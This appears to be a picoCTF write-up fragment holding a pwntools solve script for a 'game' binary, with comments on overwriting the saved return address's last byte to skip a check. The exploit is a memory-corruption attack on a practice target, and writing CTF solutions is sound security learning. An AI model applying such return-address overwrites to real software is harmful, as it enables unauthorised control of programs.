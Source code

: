 Final solve script:

```py
from pwn import ELF, p64, process, context, ROP, gdb, remote

context.binary = binary = ELF("game")
p = process()
# p = remote("rhea.picoctf.net", 53577)

script = """
c
b *0x08049927
b *0x080499c4
"""

# p = gdb.debug("./game", gdbscript=script)
payload = b"wwwwaaawaasaaasp"
p.sendline(payload)

payload = b"aaaawwwwaaaasp"
p.sendline(payload)

payload = b"aaaawwwwaaaasp"
p.sendline(payload)

payload = b"aaaawwwwaaaas"

p.sendline(payload)

payload = b"lp" + b"a" * 47 + b"w"
p.sendline(payload)

payload = b"wwwwaaaaaaaas"
p.sendline(payload)

payload = b"l\xfe"
p.sendline(payload)

payload = b"a" * 63 + b"w"
p.sendline(payload)

# gdb.attach(p, gdbscript=script)
p.interactive()


# do the strat until level 4
# once on level 4, overwrite eip last byte to 'p' 0x08049970
# this will skip the if check
# move player is called at 0x08049927
# eip is 0x804992c stored at 0xff917b9c
# map is at 0xff917bcf go to (39, -1)

# second time eip is at 0xffc4db5c
# second time map is at 0xff8170b8
# go to (23, -1)
```
